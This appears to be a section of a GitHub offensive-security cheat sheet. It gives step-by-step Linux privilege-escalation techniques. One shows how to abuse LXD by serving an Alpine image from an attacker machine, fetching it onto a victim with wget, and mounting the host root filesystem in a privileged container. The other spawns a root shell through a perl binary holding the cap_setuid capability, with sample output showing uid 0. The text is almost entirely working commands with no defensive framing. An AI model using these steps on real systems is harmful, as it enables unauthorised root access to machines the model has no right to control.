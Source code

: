```shell
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
*upload the `apline-v3.10-x86_64-someting-.tar.gz` file from the attacker machine*
```shell
python -m SimpleHTTPServer
```

*download the `apline-v3.10-x86_64-someting.tar.gz` file to victim machine*
```bash
cd /tmp
wget http://attacker-machine-ip:8000/apline-v3.10-x86_64-someting.tar.gz
```

*import the lxc image*
```shell
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
```

*check the lxc image*
```
lxc image list
```

*run these commands on target machine*
```shell
lxc init
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

# Perl setuid capability privesc

* if the `perl` has the `cap_setuid+ep` permission set.
* then it means `perl` has capability of changing `UID`.
```shell
akrech@akr3ch:/tmp$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
* create a perl file
```perl
akrech@akr3ch:/tmp$ cat root.pl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```
```
akrech@akr3ch:/tmp$ ./root.pl
root@akr3ch:/tmp# id
uid=0(root) gid=1000(akrech) groups=1000(akrech)
```
